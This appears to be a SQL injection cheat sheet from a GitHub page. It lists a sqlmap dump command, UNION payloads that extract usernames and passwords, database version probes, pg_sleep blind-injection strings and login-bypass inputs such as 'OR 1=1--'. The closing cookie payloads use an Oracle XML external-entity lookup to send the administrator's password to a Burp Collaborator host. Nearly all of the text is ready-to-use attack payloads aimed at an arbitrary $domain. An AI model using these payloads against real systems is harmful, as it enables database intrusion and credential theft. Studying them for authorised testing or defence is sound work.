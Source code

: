 <h1>SQL Injection</h1>

<p>-- o #</p>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version--</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version--</code></p>
<p><code>' UNION SELECT banner FROM v$version--</code></p>
<p><code>' UNION SELECT version FROM v$instance--</code></p>
<p><code>' UNION SELECT version()--</code></p>
<hr>
<h2>Blind SQL Injection:</h2>
<p><code>';SELECT PG_SLEEP(5)--</code></p>
<p><code>'||pg_sleep(10)--</code></p>
<hr>
<h2>SQL Login</h2>
<p>In nickname, email and password test for:</p>
<p>name'--</p>
<p>pass'--</p>
<p>'+OR+1=1--</p>
<p>'+OR+2=2--</p>
<p>'+OR+5=5--</p>
<p>'+OR+'E'='E'--</p>
<hr>
<h2>Cookies</h2>
<p>Test cookies for https request - Blind:</p>
<p><code>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--</code></p>

<p>Then for credentials.</p>

<p>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.</p>
